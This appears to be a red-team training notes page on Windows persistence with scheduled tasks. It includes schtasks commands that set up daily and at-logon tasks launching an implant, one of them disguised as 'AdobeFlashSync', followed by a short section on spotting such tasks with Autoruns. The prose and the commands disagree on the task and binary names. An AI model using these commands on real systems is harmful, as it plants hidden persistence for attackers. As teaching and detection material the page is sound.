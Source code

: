 # Scheduled Tasks

#### Scheduled tasks have been abused by ransomware for a long time and is another commonly used and simple persistence technique. Adversaries can create scheduled tasks that run at a specific time and day and execute arbitrary payloads.

run the following command to generate a new task called MyTask that is scheduled to run daily at 9:00am that will execute the empire.exe binary located in the C:\ root folder.

#### <mark style="color:green;">as a regular USER:</mark>

```
schtasks /create /tn "Mytasks\go" /sc daily /st 09:00 /tr "c:\rto\pers\implant\implant.exe"
schtasks /query /tn "mytasks\go" /fo:list /v
schtasks /run /tn "mytasks\go"
```

#### <mark style="color:green;">as a LOCAL ADMIN:</mark>

```
schtasks /create /sc onlogon /tn AdobeFlashSync /tr "c:\rto\pers\implant\implant.exe"
schtasks /query /tn "AdobeFlashSync" /fo list

schtasks /query /tn AdobeFlashSync /xml 
schtasks /query /tn AdobeFlashSync /xml > c:\RTO\PERS\tsk.xml
schtasks /delete /f /tn AdobeFlashSync
schtasks /create /tn AdobeFlashSync /xml c:\RTO\PERS\tsk.xml
```

## <mark style="color:red;">Detection</mark>

Microsoft has a Windows internals utility called Autoruns that shows you what programs are configured to run during system bootup or login. On the victim machine run the Autoruns64.exe as administrator.

Going to the Logon tab we can see the Run registry key that was added pointing to the empire.exe binary as well as the empire.exe binary that was dropped to the Startup folder.

![](<../../../.gitbook/assets/image (42).png>)

Under the Scheduled Task tab I can see the MyTask that points to the empire.exe saved in the root C:\\

![](<../../../.gitbook/assets/image (34) (1).png>)
